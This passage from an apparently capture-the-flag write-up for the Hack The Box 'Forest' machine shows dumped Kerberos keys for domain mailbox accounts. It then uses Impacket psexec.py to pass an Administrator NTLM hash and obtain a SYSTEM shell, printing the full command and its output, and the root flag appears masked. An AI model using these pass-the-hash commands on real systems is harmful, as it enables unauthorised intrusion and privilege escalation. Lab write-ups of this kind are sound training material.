 ```
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf                                                                                                               
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd                            
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e                                                        
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e                                                                                                               
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed                            

<--Snip-->

```

Another Impacket tool `psexec.py` can give us an admin shell using the found hashes.
Grab the root flag.


```
python3 psexec.py Administrator@10.10.10.161 -target-ip 10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

```

```
root@kali:~/HTB/active/forest# python3 psexec.py Administrator@10.10.10.161 -target-ip 10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file tbsNuHBQ.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service gYZZ on 10.10.10.161.....
[*] Starting service gYZZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
f0xxxxxxxxxxxxxxxxxxxxxxxxxxxxcc
C:\Windows\system32>
```


<hr width="300" size="10">

:)


